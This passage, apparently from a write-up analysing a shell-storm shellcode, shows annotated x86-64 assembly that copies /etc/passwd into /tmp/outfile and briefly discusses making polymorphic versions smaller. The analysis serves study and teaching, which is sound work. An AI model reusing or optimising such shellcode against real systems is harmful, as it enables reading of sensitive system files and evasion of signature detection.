 ```nasm
    mov rbx, rax

    ; set RAX to 2 (syscall open)
    xor rax, rax
    mov al, 2

    ; 1st argument of open: pointer to the file to open
    lea rdi, [rsp]

    ; 2nd argument of open: flags: O_RDWR|O_CREAT|0x24
    xor rsi, rsi
    push 0x66
    pop si

    ; invoke syscall open
    syscall

    ; save the file descriptor of the opened file into RDI
    mov rdi, rax

    ; set RAX to 1 (syscall write)
    xor rax, rax
    mov al, 1

    ; 2nd argument of write: pointer to buffer containing the
    ; bytes to write
    lea rsi, [rbx]

    ; 3rd argument of open: number of bytes to write inside
    ; the file "/tmp/outfile
    xor rdx, rdx
    mov rdx, r8

    ; invoke syscall write
    syscall
```

<figcaption class="figure-caption">Analysis of the shellcode</figcaption>

Overall, the shellcode performs these operations:

- using the syscall `open` and read to read the contents of the file `/etc/passwd`
- using the syscall `open` to create a temporary file named `/tmp/outfile`
- using the syscall `write` to copy the bytes read from `/etc/passwd` in the newly-created file

## Polymorphism

Writing a polymorphic version of the shellcode, I noticed that many shellcodes on shell-storm.org aren't really optimized for size.

In this case, if you were to focus on using the minimum amount of bytes, you could certainly save around 20 bytes of shellcode.
